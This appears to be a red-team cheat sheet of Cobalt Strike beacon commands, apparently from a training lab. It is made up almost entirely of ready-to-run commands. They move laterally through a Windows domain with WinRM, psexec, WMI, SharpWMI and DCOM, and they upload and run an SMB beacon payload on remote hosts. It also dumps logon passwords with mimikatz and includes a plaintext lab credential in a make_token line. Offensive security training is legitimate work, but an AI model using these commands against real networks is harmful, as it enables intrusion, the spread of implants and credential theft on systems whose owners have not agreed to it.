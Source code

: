 ###### <font style="color:#00b3ff">WinRM on remote host (get OS architecture 32 for winrm and 64 winrm64)</font> 
```
beacon> remote-exec winrm srv-1 (Get-WmiObject Win32_OperatingSystem).OSArchitecture
```

###### <font style="color:#00b3ff">Create SMB beacon with winrm</font> 
```
beacon> jump winrm64 srv-1 smb
```

###### <font style="color:#00b3ff">Move laterally with psexec</font> 
```
beacon> jump psexec64 srv-1 smb
```

###### <font style="color:#00b3ff">Move laterally with WMI</font> 
```
-> beacon> cd \\srv-1\ADMIN$
-> beacon> upload C:\Payloads\beacon-smb.exe
-> beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe
-> beacon> link srv-1
```

###### <font style="color:#00b3ff">Bypassing WMI beacon error (with SharpWMI)</font> 
```
beacon> make_token DEV\jking Purpl3Drag0n
beacon> remote-exec wmi srv-2 calc
beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Debug\SharpWMI.exe action=exec computername=srv-2 command="C:\Windows\System32\calc.exe"
```

###### <font style="color:#00b3ff">Lateral Mov. with  Distributed Component Object Model (DCOM) Powershell</font> 
```
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName srv-1 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
beacon> link srv-1
```

###### <font style="color:#00b3ff">Show logged in users</font> 
```
beacon> net logons
```

###### <font style="color:#00b3ff">Mimikatz logon passwords</font> 
```
beacon> mimikatz sekurlsa::logonpasswords
```
